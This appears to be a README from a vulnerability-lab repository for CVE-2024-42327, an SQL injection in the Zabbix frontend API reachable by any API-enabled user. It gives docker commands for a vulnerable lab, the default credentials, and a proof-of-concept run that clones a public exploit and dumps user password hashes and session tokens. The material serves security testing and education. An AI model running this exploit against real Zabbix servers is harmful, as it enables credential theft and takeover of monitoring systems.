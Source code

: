 # Title
A non-admin user account on the Zabbix frontend with the default User role, or with any other role that gives API access can exploit this vulnerability. An SQLi exists in the CUser class in the addRelatedObjects function, this function is being called from the CUser.get function which is available for every user who has API access.

Vulnerable versions:
6.0.0–6.0.31, 6.4.0–6.4.16 and 7.0.0.

## Metrics
CVSSv2: N\A   
CVSSv3: 9.9 (Critical)

## Vulnerability Environment
Build and run:
```bash
docker compose build
docker compose up -d
```
Find Zabbix Web IP:
```bash
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' zabbix-web-nginx-mysql
```
Default login/password:
`Admin:zabbix`

Stop Environment and remove network
```bash
docker compose down
docker network rm zabbix-cve-2024-42327-net
```

## Detection and exploitation example
### PoC Exlpoitation:
```bash
git clone https://github.com/aramosf/cve-2024-42327.git
```
```bash
python3 cve-2024-42327.py -u "http://172.90.240.4:8080/api_jsonrpc.php" -n Admin -p zabbix

Valid session token: 5dcee00f604a687c10161863d349784e
Admin, Zabbix, Administrator, 1, $2y$10$92nDno4n0Zm7Ej7Jfsz8WukBfgSS/U0QkIuu8WkJPihXBb2A1UrEK
guest, , , 2, $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06

python3 cve-2024-42327.py -u "http://172.90.240.4:8080/api_jsonrpc.php" -n guest -p ''

Valid session token: 2ec325bca4aea414ee037b90a5fec463
```

## Exploits and PoCs
https://github.com/aramosf/cve-2024-42327

## Nuclei Template

## CTF Rooms

## References
[SecurityOnline.info: PoC Exploit Releases for Critical Zabbix Vulnerability – CVE-2024-42327](https://securityonline.info/poc-exploit-releases-for-critical-zabbix-vulnerability-cve-2024-42327/)   
[NIST: CVE-2024-42327](https://nvd.nist.gov/vuln/detail/CVE-2024-42327)   
[Github: zabbix-docker](https://github.com/zabbix/zabbix-docker/)   
[Docker Hub: zabbix](https://hub.docker.com/u/zabbix)   
[Zabbix Documentation: Installation from containers](https://www.zabbix.com/documentation/current/en/manual/installation/containers)   
